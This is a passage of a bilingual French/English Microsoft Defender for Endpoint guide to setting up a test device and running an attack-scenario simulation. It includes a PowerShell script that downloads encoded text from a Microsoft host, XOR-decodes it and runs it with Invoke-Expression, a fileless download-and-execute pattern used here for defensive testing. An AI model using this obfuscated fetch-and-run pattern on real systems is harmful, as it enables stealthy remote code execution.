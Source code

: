    1. <span data-ttu-id="4ff5d-143">Le périphérique de test est joint au domaine de test.</span><span class="sxs-lookup"><span data-stu-id="4ff5d-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="4ff5d-144">[Activez l’antivirus Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="4ff5d-144">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="4ff5d-145">Si vous rencontrez des problèmes pour activer l’antivirus Windows Defender, consultez cette [rubrique de résolution des problèmes](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="4ff5d-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="4ff5d-146">Vérifiez que le périphérique de test est [intégré à Microsoft Defender pour le point de terminaison](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="4ff5d-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="4ff5d-147">Si vous utilisez un client existant et implémentez des groupes d’appareils, créez un groupe de périphériques dédié pour le périphérique de test et faites-le glisser vers le niveau supérieur dans l’expérience utilisateur de configuration.</span><span class="sxs-lookup"><span data-stu-id="4ff5d-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="4ff5d-148">Exécuter la simulation de scénario d’attaque</span><span class="sxs-lookup"><span data-stu-id="4ff5d-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="4ff5d-149">Pour exécuter la simulation de scénario d’attaque :</span><span class="sxs-lookup"><span data-stu-id="4ff5d-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="4ff5d-150">Connectez-vous au périphérique de test à l’aide du compte d’utilisateur test.</span><span class="sxs-lookup"><span data-stu-id="4ff5d-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="4ff5d-151">Ouvrez une fenêtre Windows PowerShell sur le périphérique de test.</span><span class="sxs-lookup"><span data-stu-id="4ff5d-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="4ff5d-152">Copiez le script de simulation suivant :</span><span class="sxs-lookup"><span data-stu-id="4ff5d-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
